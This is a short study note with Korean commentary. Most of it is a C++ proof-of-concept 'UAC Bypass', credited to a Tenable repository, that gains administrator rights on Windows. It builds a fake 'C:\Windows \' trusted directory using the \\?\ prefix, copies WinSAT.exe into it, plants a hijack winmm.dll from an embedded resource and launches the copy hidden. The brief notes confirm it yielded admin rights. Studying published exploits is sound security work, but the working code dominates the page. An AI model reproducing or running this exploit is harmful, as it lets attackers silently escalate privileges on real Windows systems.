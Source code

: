 # UAC Bypass

```
#include "stdafx.h"
#include <Windows.h>
#include "resource.h"

void DropResource(const wchar_t* rsrcName, const wchar_t* filePath) {
	HMODULE hMod = GetModuleHandle(NULL);
	HRSRC res = FindResource(hMod, MAKEINTRESOURCE(L"winmm.dll"), rsrcName);
	DWORD dllSize = SizeofResource(hMod, res);
	void* dllBuff = LoadResource(hMod, res);
	HANDLE hDll = CreateFile(filePath, GENERIC_WRITE, 0, 0, CREATE_ALWAYS, 0, NULL);
	DWORD sizeOut;
	WriteFile(hDll, dllBuff, dllSize, &sizeOut, NULL);
	CloseHandle(hDll);
}

int main()
{
	_SHELLEXECUTEINFOW se = {};
	//Create Mock SystemRoot Directory
	CreateDirectoryW(L"\\\\?\\C:\\Windows \\", 0);
	CreateDirectoryW(L"\\\\?\\C:\\Windows \\System32", 0);
	CopyFileW(L"C:\\Windows\\System32\\WinSAT.exe", L"\\\\?\\C:\\Windows \\System32\\WinSAT.exe", false);

	//Drop our dll for hijack
	DropResource(L"DATA", L"\\\\?\\C:\\Windows \\System32\\winmm.dll");

	//Execute our winSAT.exe copy from fake trusted directory
	se.cbSize = sizeof(_SHELLEXECUTEINFOW);
	se.lpFile =  L"C:\\Windows \\System32\\WinSAT.exe";
	se.lpParameters = L"formal";
	se.nShow = SW_HIDE;
	se.hwnd = NULL;
	se.lpDirectory = NULL;
	ShellExecuteEx(&se);

    	return 0;
}
```

_출처 : https://github.com/tenable/poc/blob/master/Microsoft/Windows/UACBypass/UACBypass.cpp_

```
\\\\?\\
```
 이게 무슨 네이밍규칙 우회한거라는데 추가 조사 필요함.

 위 코드에 어떤 취약점을 이용하면 UAC 검사 없이 바로 관리자권한 실행할 수 있음. 일단 DLL을 통한 관리자 권한 획득은 확인하였고 프로세스 생성하여 권한확인해볼예정